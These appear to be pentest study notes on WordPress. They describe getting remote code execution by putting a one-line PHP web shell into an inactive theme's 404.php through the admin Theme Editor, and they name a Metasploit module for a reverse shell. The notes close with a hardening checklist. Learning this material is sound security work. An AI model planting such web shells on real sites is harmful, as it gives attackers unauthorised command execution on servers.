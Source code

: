 ***SEEMS SLOW AF*** TODO FIND WAY TO HYDRA

## RCE Via Theme Editor
With admin access to word press we can modify the PHP source code to exploit commands.
`Appearance>Theme Editor` which will take us to the php source code.
*We should swap to an inactive theme to not corrupt the main theme.*
add a php web shell 
```php
<?php

system($_GET['cmd']);
```

If we pick a page that is infrequently viewed `404.php` we can then access our web shell via the page

## Attacking WordPress with MetaSploit
Metasploit has the capability to gain a reverse shell from admin credentials
`wp_admin_shell_upload`

## WP Hardening
UPDATE!
modify `wp-config`
```php
define( 'WP_AUTO_UPDATE_CORE', true );
```

```php
add_filter( 'auto_update_plugin', '__return_true' );
```

```php
add_filter( 'auto_update_theme', '__return_true' );
```
turn off indexing
- Disable the standard `admin` user and create accounts with difficult to guess usernames
- Enforce strong passwords
- Enable and enforce two-factor authentication (2FA) for all users
- Restrict users' access based on the concept of least privilege
- Periodically audit user rights and access. Remove any unused accounts or revoke access that is no longer needed
- Install a plugin that disallows user enumeration so an attacker cannot gather valid usernames to be used in a password spraying attack
- Limit login attempts to prevent password brute-forcing attacks
- Rename the `wp-admin.php` login page or relocate it to make it either not accessible to the internet or only accessible by certain IP addresses